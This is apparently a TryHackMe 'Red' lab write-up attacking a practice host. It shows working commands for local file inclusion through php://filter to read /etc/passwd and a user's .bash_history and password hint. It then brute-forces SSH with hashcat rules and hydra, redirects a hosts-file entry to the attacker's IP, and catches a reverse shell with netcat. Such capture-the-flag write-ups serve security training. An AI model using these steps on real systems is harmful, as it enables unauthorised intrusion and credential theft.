

# Red-TryHackMe

So the target is `10.10.60.5`\
Let's just use nmap to identify open ports `nmap -sV -sC -sT 10.10.60.5`


There is port 80 and 22 open let's browse prot 80 


As we can see that we have the parameter option with home.html set on it so let's try for LFI

no results we got nothing except we are being redirected.


let's see the contents of `index.php` by using phpwrapper

command: `curl http://10.10.60.5/index.php?page=php://filter/convert.base64-encode/resource=index.php -o index.php`


same way we can access `/etc/passwd` 

commands:
```bash
curl http://10.10.60.5/index.php?page=php://filter/convert.base64-encode/resource=/etc/passwd
```
```bash
curl http://10.10.60.5/index.php?page=php://filter/resource=/etc/passwd
```


Then we looked into `.bash_history` and got this

commands:
```bash
curl http://10.10.60.5/index.php?page=php://filter/resource=/home/blue/.bash_history
```
then

```bash
curl http://10.10.60.5/index.php?page=php://filter/resource=/home/blue/.reminder
```


by following the same method we made a passwordlist and bruteforce login using ssh user `blue`
steps :
First get the password hint
```bash
curl http://10.10.60.5/index.php?page=php://filter/resource=/home/blue/.reminder
```
store it in `.reminder`
```bash
echo 'sup3r_p@s$w0rd!' > .reminder
```
generate password using hashcat
```bash
hashcat --stdout .reminder -r /usr/share/hashcat/rules/best64.rule > passlist.txt 
```
bruteforce login using hydra with the generate password list.
```bash
hydra -l blue -P passlist.txt 10.10.60.5 ssh -t5
```


with that we got our first flag 


after that let's use linpeas to find any process to gain privilege.

commands:
```bash
/usr/bin/echo "10.2.17.94 redrules.thm" | tee -a /etc/hosts
```

listener on my system 
```bash
nc -lvnp 9001
```
and got the shell and flag.



